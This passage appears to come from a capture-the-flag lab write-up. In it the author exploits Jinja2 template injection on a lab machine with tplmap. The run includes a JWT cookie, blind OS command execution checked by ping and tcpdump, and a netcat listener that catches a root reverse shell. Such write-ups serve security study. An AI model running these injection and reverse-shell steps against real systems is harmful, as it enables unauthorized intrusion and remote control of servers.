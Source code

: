     [+] Rerun tplmap providing one of the following options:

        --os-shell                          Run shell on the target
        --os-cmd                    Execute shell commands
        --bind-shell PORT                   Connect to a shell bind to a target port
        --reverse-shell HOST PORT   Send a shell back to the attacker's port
        --upload LOCAL REMOTE       Upload files to the server



I tried ramping the `--level` up to 5 (default 1), but still failed to
read files.

I did try the various shell options. The blind os shell option did in
fact run commands:



    root@kali# /opt/tplmap/tplmap.py -u http://10.10.10.96:8080/ -X POST -d "name=GBR-4045&desc=test" -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0Njc0MDEwMX0._vYHq7D4Cq9eSMI5UTQRC4lM9BjB0DAmvFZy0ZJ664w" -e Jinja2 --os-shell

    ...[snip]...

    [+] Blind injection has been found and command execution will not produce any output.
    [+] Delay is introduced appending '&& sleep <delay>' to the shell commands. True or False is returned whether it returns successfully or not.
    [+] Run commands on the operating system.
     (blind) $ ping -c 1 10.10.14.15





    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    20:59:37.681992 IP 10.10.10.96 > kali: ICMP echo request, id 40458, seq 0, length 64
    20:59:37.682017 IP kali > 10.10.10.96: ICMP echo reply, id 40458, seq 0, length 64



The `--reverse-shell` option worked. It gave me a weird error about not
being able to bind on 0.0.0.0:\[whatever port I gave it\], even though
it was supposed to a reverse shell... and the reverse shell worked:



    root@kali# nc -lnvp 4444
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 10.10.10.96.
    Ncat: Connection from 10.10.10.96:43747.
    /bin/sh: can't access tty; job control turned off
    /app # id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)



That's pretty neat.
